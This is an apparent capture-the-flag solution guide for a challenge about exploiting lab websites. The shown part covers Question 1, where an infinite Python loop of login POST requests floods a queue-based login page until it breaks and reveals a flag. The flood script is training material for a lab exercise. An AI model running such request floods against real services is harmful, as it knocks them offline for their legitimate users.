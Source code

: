 # And I Attacked It, My Way

*Solution Guide*

## Overview

*And I Attacked It, My Way* asks players to analyze three different websites, find vulnerabilities, exploit those vulnerabilities to access the websites, and ultimately retrieve important data.

> **Note:** If the websites are not available immediately upon starting the challenge, please give the challenge a few minutes to start up and try again.

## Question 1

*What is the 8-character hex string found after successfully logging into the website* `http://baratie.merch.codes`*?*

1. Log into the Kali VM, open Firefox, and browse to: `http://baratie.merch.codes`. A green login page asks for your username and password with no other visible information present.

2. Attempt to log in with a random username and password to view the page's response. You are redirected to a new page showing your authentication check has been added to the queue. The website will process your login attempt, and eventually, you are redirected to the login page with a message stating the credentials you entered were incorrect. 

   The important thing to note is that the website uses a *queue-based* login system. This is a hint: if the website uses a queue, then maybe it can be overloaded with too many requests causing the site to crash.

3. As part of this solution guide, the Python script below was created to make requests to login. You can view the script below.

```python
#!/usr/bin/python3

import requests, sys
while True:
    ## For the `data` in the `POST` request below
    # The key's match the name of the associated `input` element on the `baratie.merch.codes` login page
    # values are the random login creds im testing with
    try:
        resp = requests.post("http://baratie.merch.codes/login", data={"username":"user","password":"password"})
    except Exception as e:          # This will print an error if one occurs
        print(str(e))
    else:
        continue
        #print(resp.status_code)            ## This command will show the response code from your request, can be helpful if requests are failing.
```

4. Execute the Python script and wait.
5. Refresh the login page every minute. When done correctly, the page changes and presents new information. See the screen print below.
